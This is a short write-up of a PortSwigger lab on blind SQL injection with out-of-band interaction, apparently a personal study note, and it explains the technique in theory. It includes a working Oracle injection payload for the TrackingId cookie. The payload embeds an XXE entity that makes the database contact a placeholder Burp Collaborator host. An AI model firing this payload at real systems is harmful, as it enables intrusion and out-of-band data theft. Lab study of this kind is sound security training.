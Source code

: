 # Lab: Blind SQL injection with out-of-band interaction
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the SQL injection vulnerability to cause a DNS lookup to Burp Collaborator.

## Disclaimer
*This room requires Burp Collaborator, which is only usably with Burp Suite Professional.*

So for me this lab is not solvable. But I will explain the idea behind the attack and the theoretical payload you could use.

## Out-of-band interaction
In this lab we can use a blind SQL injection, but there is no response by the application like conditional responses, error messages or time delays.

To still abuse this vulnerability, we can use out-of-band techniques. To shorten things up, you inject a query, which sends it's response, for example, as subdomain in a DNS request to an other server.

Burp Collaborator is a tool by Burp, which automates this technique in the Burp Suite interface.

## Solution
The injection takes place over the TrackingId cookie of the website again.

The goal is only to create an out-of-band interaction without any data extraction. We can do this by the following statement. The database is an Oracle DB (queries for different databases are listet in the [cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)):
```
TrackingId=' || (SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual) ||'
```

This query creates a DNS request to the collaborator server with the corresponding subdomain (http://BURP-COLLABORATOR-SUBDOMAIN.burpcollaborator.net/). Burp Collaborator shows those on the server incoming requests in the interface.

The lab would be solved with this.
